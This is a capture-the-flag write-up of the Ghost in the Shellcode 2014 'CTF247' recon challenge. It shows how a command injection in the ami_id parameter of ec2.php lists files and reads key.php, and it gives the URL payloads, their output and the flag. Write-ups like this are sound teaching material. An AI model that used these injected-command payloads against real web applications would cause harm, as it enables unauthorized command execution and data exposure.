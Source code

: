 # Ghost in the Shellcode 2014: CTF247

**Category:** Recon
**Points:** 100
**Description:**

> CTF247 is awesome <http://ctf247.2014.ghostintheshellcode.com/>

## Write-up

The `ami_id` parameter on [the ‘Fortress’ page](http://ctf247.2014.ghostintheshellcode.com/ec2.php) is vulnerable to command injection.

The response bodies for [`/ec2.php?ami_id=;ls;`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=;ls;) or [`/ec2.php?ami_id=%0als%0a`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=%0als%0a) start with:

```
ec2-api-tools-1.6.12.0
ec2.php
index.html
index_files
key.php
```

Aha! There’s a file named `key.php`. Let’s see what it says by visiting [`/ec2.php?ami_id=;cat%20key.php;`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=;cat%20key.php;) or [`/ec2.php?ami_id=%0acat%20key.php%0a`](http://ctf247.2014.ghostintheshellcode.com/ec2.php?ami_id=%0acat%20key.php%0a):

```php
<?php
  /* flag{0aea26e968895efa40b563e3e8fe8f19} */
  echo('There\'s a key here.');
?>
```

## Other write-ups and resources

* <http://blogs.tunelko.com/2014/01/19/ghost-in-the-shellcode-2014-write-up-ctf247/>
* <http://insertco.in/2014/01/19/ctf247-gits-2014/>
